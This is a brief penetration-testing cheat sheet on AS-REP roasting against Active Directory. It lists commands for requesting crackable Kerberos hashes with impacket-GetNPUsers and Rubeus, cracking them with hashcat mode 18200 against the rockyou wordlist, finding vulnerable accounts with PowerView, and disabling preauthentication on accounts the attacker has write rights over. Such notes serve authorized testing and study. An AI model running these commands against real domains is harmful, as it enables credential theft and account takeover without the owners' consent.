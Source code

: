 # AS-REP ROASTING
#impacket-GetNPUsers 
```
# AS-REP ROASTING

impacket-GetNPUsers -dc-ip [ip] -request -outputfile [hashes file] [domain]/[username]
```

#crack 
```
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 [hashes file] /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#rubeus
```
.\Rubeus.exe asreproast /nowrap
```

#powerview 
```
Get-DomainUser with -PreauthNotRequired
```

#Targeted_AS-REP_Roasting
```
with GenericWrite or GenericAll modify the User Account Control value of the user to not require Kerberos preauthentication
```